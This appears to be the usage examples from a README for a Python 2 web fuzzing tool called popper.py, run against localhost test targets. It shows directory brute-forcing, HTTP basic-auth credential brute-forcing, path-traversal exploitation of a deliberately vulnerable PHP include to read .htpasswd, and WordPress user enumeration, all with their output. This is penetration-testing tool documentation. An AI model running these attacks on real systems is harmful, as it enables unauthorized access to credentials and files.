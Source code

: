 ## Examples
### Brute forcing paths
We use a dictionary of file names and hide 404 codes:

    $ cat testdic.txt
    admin
    temp
    sarasasasa
    backdoor
    user
    panel
    aaaaa

    $ python2 popper.py 'http://localhost/poppertest/[file].php' --file testdic.txt --hc 404
    302 8    194      0.000137 http://localhost/poppertest/user.php
    200 7    166      5.3e-05  http://localhost/poppertest/panel.php
    401 57   1539     0.000602 http://localhost/poppertest/admin.php

Hidden: 5


### Brute forcing http user and password
Now we use two payloads, one for users and another for passwords, brute forcing both at the same time. --file arguments will be used in order:

    $ cat userdic.txt
    user
    root
    admin

    $ cat passworddic.txt
    1234
    12345
    admin
    letmein
    toor

    Hidden: 23
    $ python2 popper.py 'http://[file]:[file]@localhost/poppertest/admin.php' --file userdic.txt passworddic.txt
    401 57   1539     0.00254  http://root:12345@localhost/poppertest/admin.php
    401 57   1539     0.001611 http://root:1234@localhost/poppertest/admin.php
    401 57   1539     0.001897 http://root:letmein@localhost/poppertest/admin.php
    401 57   1539     0.001712 http://root:toor@localhost/poppertest/admin.php
    401 57   1539     0.001264 http://user:12345@localhost/poppertest/admin.php
    401 57   1539     0.00077  http://user:letmein@localhost/poppertest/admin.php
    401 57   1539     0.001313 http://user:admin@localhost/poppertest/admin.php
    401 57   1539     0.001513 http://user:1234@localhost/poppertest/admin.php
    401 57   1539     5.6e-05  http://admin:1234@localhost/poppertest/admin.php
    401 57   1539     4.9e-05  http://admin:toor@localhost/poppertest/admin.php
    401 57   1539     6.4e-05  http://admin:admin@localhost/poppertest/admin.php
    401 57   1539     0.005372 http://admin:12345@localhost/poppertest/admin.php
    200 8    175      0.000302 http://admin:letmein@localhost/poppertest/admin.php
    401 57   1539     0.000719 http://user:toor@localhost/poppertest/admin.php
    401 57   1539     0.000617 http://root:admin@localhost/poppertest/admin.php

    Hidden: 0

We can, again, hide uninteresting results:

    $ python2 popper.py 'http://[file]:[file]@localhost/poppertest/admin.php' --file userdic.txt passworddic.txt --hc 401
    200 8    175      0.004078 http://admin:letmein@localhost/poppertest/admin.php

    Hidden: 14


### Brute forcing LFI

    $ cat include.php
    <?PHP include('./'.$_GET['include']);

    $ python2 popper.py 'http://localhost/poppertest/news/include.php?include=[repeat].htpasswd' --repeat 10 ../
    200 11   552      0.000613 http://localhost/poppertest/news/include.php?include=../../../../.htpasswd
    200 11   546      0.001891 http://localhost/poppertest/news/include.php?include=../../../.htpasswd
    200 11   588      0.001274 http://localhost/poppertest/news/include.php?include=../../../../../../../../../../.htpasswd
    200 11   534      0.001067 http://localhost/poppertest/news/include.php?include=../.htpasswd
    200 11   564      0.001231 http://localhost/poppertest/news/include.php?include=../../../../../../.htpasswd
    200 11   570      0.00132  http://localhost/poppertest/news/include.php?include=../../../../../../../.htpasswd
    200 11   582      0.002143 http://localhost/poppertest/news/include.php?include=../../../../../../../../../.htpasswd
    200 9    188      0.004141 http://localhost/poppertest/news/include.php?include=../../.htpasswd
    200 11   576      0.003028 http://localhost/poppertest/news/include.php?include=../../../../../../../../.htpasswd
    200 11   558      3e-05    http://localhost/poppertest/news/include.php?include=../../../../../.htpasswd

There is one request with 9 lines instead of 11. This is the one with the .htpasswd file


### Enumerating wordpress users
Now we will be using [range] to find some numeric ids and --threads 30 to speed up the process. This particular website redirects valid ids to /author/USERNAME

    python2 popper.py 'http://localhost/poppertest/wordpress/?author=[range]' --range 1,1000 --threads 30 --hc 404
    301 11   436      0.360397 http://localhost/poppertest/wordpress/?author=2
    301 11   433      0.357481 http://localhost/poppertest/wordpress/?author=5
    301 11   434      0.375045 http://localhost/poppertest/wordpress/?author=1
    301 11   433      0.631637 http://localhost/poppertest/wordpress/?author=79
    301 11   437      0.595769 http://localhost/poppertest/wordpress/?author=91
    301 11   433      0.632835 http://localhost/poppertest/wordpress/?author=102
    200 375  18685    0.873635 http://localhost/poppertest/wordpress/?author=101
    301 11   442      0.571062 http://localhost/poppertest/wordpress/?author=144
    301 11   433      0.604039 http://localhost/poppertest/wordpress/?author=147
    301 11   433      0.60503  http://localhost/poppertest/wordpress/?author=157
    301 11   434      0.599448 http://localhost/poppertest/wordpress/?author=194
    301 11   433      0.686675 http://localhost/poppertest/wordpress/?author=203
    301 11   433      0.489501 http://localhost/poppertest/wordpress/?author=232
    301 11   434      0.456722 http://localhost/poppertest/wordpress/?author=267
    301 11   435      0.603057 http://localhost/poppertest/wordpress/?author=422
    301 11   433      0.691517 http://localhost/poppertest/wordpress/?author=558
    301 11   434      0.457889 http://localhost/poppertest/wordpress/?author=678
    301 11   434      0.615434 http://localhost/poppertest/wordpress/?author=780
    301 11   438      0.589926 http://localhost/poppertest/wordpress/?author=844

    Hidden: 981


### Other protocols
It may work with other protocols supported by libcurl
    $ python2 popper.py 'ftp://localhost/[file]/' --file testdic 
    Giving up on ftp://localhost/qwe/: Server denied you to change to the given directory
    Giving up on ftp://localhost/dddddd/: Server denied you to change to the given directory
    226 1    61       0.18242  ftp://localhost/somefolder/
    Giving up on ftp://localhost/asd/: Server denied you to change to the given directory
    226 182  13521    0.257413 ftp://localhost/otherfolder/

    $ python2 popper.py 'gopher://localhost/1/[file]/' --file testdic 
    0   1    57       0.383794 gopher://localhost/1/asd/
    0   2    167      0.397954 gopher://localhost/1/Internet/
    0   1    60       0.407395 gopher://localhost/1/dddddd/
    0   16   1124     0.400861 gopher://localhost/1/Computers/
    0   1    57       0.4052   gopher://localhost/1/qwe/
